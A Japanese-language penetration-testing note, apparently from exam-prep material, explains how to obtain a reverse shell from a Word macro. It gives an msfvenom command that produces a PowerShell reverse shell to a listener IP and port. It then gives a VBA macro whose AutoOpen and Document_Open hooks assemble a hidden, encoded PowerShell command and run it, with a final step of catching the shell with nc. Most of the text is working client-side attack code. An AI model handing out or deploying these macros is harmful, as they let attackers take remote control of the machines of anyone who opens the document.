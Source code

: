 # CllentSideAttack

### wordにマクロを含んでリバースシェルを取得

* マクロ用のpowershellリバースシェルを作成する

  ```bash
  sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.132 LPORT=4444 -f psh-cmd
  ```

* マクロを作成する

  * wordを開き、view→macroを選択する

  * mymacroを作成し以下を追加する

    ```vb
    Sub AutoOpen()
    
      MyMacro
      
    End Sub
    
    Sub Document_Open()
    
      MyMacro
      
    End Sub
    
    Sub MyMacro()
    
      Dim Str As String
      <msfvenomで作成し,pythonで50文字ずつに分割した文字列>
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      ・・・
      CreateObject("Wscript.Shell").Run Str
        
    End Sub
    ```

  * マクロはdocもしくはdocmのみで有効であるため保存する拡張子に留意

  * wordを保存し再度開く。マクロを有効にするボタンがwordファイル上部に表示されること

  * マクロは全体ではなくdocのプロジェクト自体に紐づけるとよい

    ![image-20230202082430710](img/ClientsideAttack/image-20230202082430710.png)

* ncでリバースシェルを待ち受ける